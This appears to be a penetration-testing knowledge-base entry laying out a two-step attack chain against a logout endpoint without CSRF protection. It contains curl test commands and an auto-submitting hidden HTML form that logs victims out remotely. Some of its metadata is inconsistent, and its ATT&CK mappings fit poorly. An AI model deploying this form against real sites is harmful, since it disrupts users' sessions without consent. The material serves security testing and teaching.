

---
tags:
  - csrf
  - web
  - session-hijacking
  - denial-of-service
type: attack_chain
tools: []
tactics:
  - '[[Defense Evasion]]'
  - '[[Impact]]'
commands:
  - '[[commands/curl-post-logout-test]]'
platforms:
  - Web
complexity: low
procedures:
  - '[[procedures/Test-for-CSRF-on-Logout-Endpoint]]'
  - '[[procedures/Exploit-CSRF-to-Force-User-Logout]]'
step_count: 2
techniques:
  - '[[Drive-by Compromise]]'
  - '[[Endpoint Denial of Service]]'
description: >-
  Attack chain exploiting a CSRF vulnerability in the logout endpoint to
  remotely invalidate user sessions without authentication.
skill_level: intermediate
impact_level: medium
id: 6668662b-577f-4326-8954-042a54ed8589
created_at: '2025-12-14T17:27:42.510Z'
updated_at: '2025-12-14T17:27:42.510Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Defense Evasion]]'
  - '[[Impact]]'
mitre_techniques:
  - '[[Drive-by Compromise]]'
  - '[[Endpoint Denial of Service]]'
---
# CSRF on Logout Endpoint to Force Remote User Logout

Multi-stage attack chain demonstrating exploitation of a CSRF vulnerability on the /logout endpoint to remotely log out authenticated users.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools or proxy like Burp Suite for request crafting

### Target Environment

- Web application with /logout endpoint accepting POST requests
- No CSRF protection on logout functionality

### Initial Access Requirements

- Victim must be authenticated in the application
- Attacker needs a way to trick victim into loading a malicious page (e.g., phishing link)
- No direct credentials required for attacker

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Logout Endpoint
procedure: [[procedures/Test-for-CSRF-on-Logout-Endpoint]]

**Objective**: Examine the /logout endpoint to confirm lack of CSRF protection, allowing forged POST requests to invalidate sessions.

**Instructions**: Inspect the application's logout mechanism using browser tools or a proxy. Send a legitimate POST to /logout and observe if a CSRF token is required or validated. Use [[commands/curl-post-logout-test]] to simulate a request without tokens:

```bash
curl -X POST https://target.com/logout -d '' -c cookies.txt
```

If the session invalidates without a token, CSRF is absent.

**Expected Output**: Session cookie is cleared or invalidated upon POST without CSRF token.

**Success Indicators**:
- No error for missing CSRF token
- User session ends successfully

### Step 2: Exploit CSRF to Force Logout
procedure: [[procedures/Exploit-CSRF-to-Force-User-Logout]]

**Objective**: Craft a malicious request or page that submits a forged POST to /logout, tricking the victim into logging out remotely.

**Instructions**: Create an HTML page with a hidden form that auto-submits a POST to the target's /logout endpoint. Host it on an attacker-controlled site and lure the victim via email or link. Use [[commands/curl-post-logout-test]] to verify the forged request works:

```bash
curl -X POST https://target.com/logout -d '' --referer https://attacker.com/malicious.html -c cookies.txt
```

Embed this in a form:

```html
<form action="https://target.com/logout" method="POST" id="csrf-form">
  <input type="hidden" name="" value="">
</form>
<script>document.getElementById('csrf-form').submit();</script>
```

**Expected Output**: Victim's session is invalidated upon loading the page.

**Success Indicators**:
- Victim reports unexpected logout
- No authentication required for the forged request

## Attack Chain Summary

### Key Achievements

1. Confirmed CSRF absence on sensitive logout endpoint
2. Demonstrated remote session invalidation without user consent
3. Highlighted potential for disrupting user access and forcing re-authentication

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]] Drive-by Compromise
- [[Endpoint Denial of Service]] Endpoint Denial of Service

### MITRE ATT&CK Tactics

- [[Defense Evasion]] Defense Evasion
- [[Impact]] Impact

---
*Last updated: 2023-10-01*
